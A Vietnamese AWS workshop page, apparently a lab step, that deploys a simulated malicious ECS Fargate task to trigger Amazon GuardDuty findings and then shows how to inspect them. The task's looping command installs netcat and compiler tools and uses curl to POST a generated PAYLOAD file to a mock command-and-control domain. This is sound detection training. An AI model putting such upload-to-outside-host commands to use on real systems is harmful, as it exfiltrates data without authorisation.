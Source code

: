 ```yaml
---
title : "Tạo Task Độc Hại"
date :  "`r Sys.Date()`" 
weight : 4
chapter : false
pre: "<b> 4.4. </b>"
---
```


![alt text](/images/4-amazon-guardduty/4.4-create-malicious-task/image-2.png)
*Hình 1. Sơ đồ tạo task độc hại*

Trong phần này, chúng ta sẽ tạo một ECS task mô phỏng hoạt động trái phép để minh họa khả năng phát hiện mối đe dọa của Amazon GuardDuty. Task này sẽ cố gắng giao tiếp với một tên miền máy chủ điều khiển và chỉ huy đã biết và thực thi một tệp nhị phân được tạo ra.

Đầu tiên, tạo task definition:

```bash
cat << EOF > malicious-guardduty-taskdef.json
{
    "family": "malicious-guardduty-task",
    "networkMode": "awsvpc",
    "requiresCompatibilities": [
        "FARGATE"
    ],
    "cpu": "1024",
    "memory": "2048",
    "runtimePlatform": {
        "cpuArchitecture": "X86_64",
        "operatingSystemFamily": "LINUX"
    },
    "containerDefinitions": [
        {
            "name": "guardduty-test",
            "image": "public.ecr.aws/ubuntu/ubuntu:22.04",
            "portMappings": [],
            "essential": true,
            "entryPoint": [
                "sh",
                "-c"
            ],
            "command": [
                "while true; do sleep 30;apt update -y;apt install python3 curl gcc netcat-openbsd g++ sudo zip -y; dd if=/dev/random of=PAYLOAD bs=1024 count=1;curl -X POST -F \"file=@PAYLOAD\" -s --connect-timeout 1 http://c2.guarddutyc2activityb.com/sample.dat > /dev/null; echo \"done!\";sleep 60; done"
            ],
            "environment": [],
            "mountPoints": [],
            "volumesFrom": [],
            "linuxParameters": {
                "capabilities": {
                    "add": [
                        "SYS_PTRACE"
                    ],
                    "drop": []
                }
            },
            "privileged": false,
            "logConfiguration": {
                "logDriver": "awslogs",
                "options": {
                    "awslogs-group": "retail-store-ecs-tasks",
                    "awslogs-region": "${AWS_REGION}",
                    "awslogs-stream-prefix": "guardduty"
                }
            }
        }
    ],
    "executionRoleArn": "arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",
    "taskRoleArn": "arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole"
}
EOF

aws ecs register-task-definition --cli-input-json file://malicious-guardduty-taskdef.json
```

Triển khai task vào ECS cluster của bạn:

```bash
aws ecs run-task \
    --cluster retail-store-ecs-cluster \
    --task-definition malicious-guardduty-task:1 \
    --launch-type FARGATE  \
    --network-configuration "awsvpcConfiguration={subnets=[${PRIVATE_SUBNET1},${PRIVATE_SUBNET2}],assignPublicIp=DISABLED}"
```

Theo dõi các Phát hiện của GuardDuty:

1. Điều hướng đến [Amazon GuardDuty console](https://console.aws.amazon.com/guardduty/home)
2. Đợi khoảng 3-5 phút để các phát hiện xuất hiện
3. Xem xét các cảnh báo bảo mật cho thấy hoạt động đáng ngờ

![Guardduty Console](/images/4-amazon-guardduty/4.4-create-malicious-task/image.png)
*Hình 2. GuardDuty Console*

Kiểm tra chi tiết các phát hiện:

![Guardduty Findings](/images/4-amazon-guardduty/4.4-create-malicious-task/image-1.png)
*Hình 3. Các Phát hiện của GuardDuty*

Amazon GuardDuty cung cấp ngữ cảnh chi tiết cho mỗi phát hiện bảo mật, bao gồm:
- Thông tin ECS cluster
- Chi tiết task
- Thông số container
- Các chỉ số đe dọa dựa trên IP và tên miền

Thông tin chi tiết này giúp các đội ngũ bảo mật nhanh chóng xác định và phản ứng với các mối đe dọa tiềm ẩn.

Để biết thêm thông tin về các phát hiện của GuardDuty và tài nguyên được giám sát, tham khảo [Hướng dẫn về các phát hiện của Amazon GuardDuty](https://docs.aws.amazon.com/guardduty/latest/ug/findings-runtime-monitoring.html).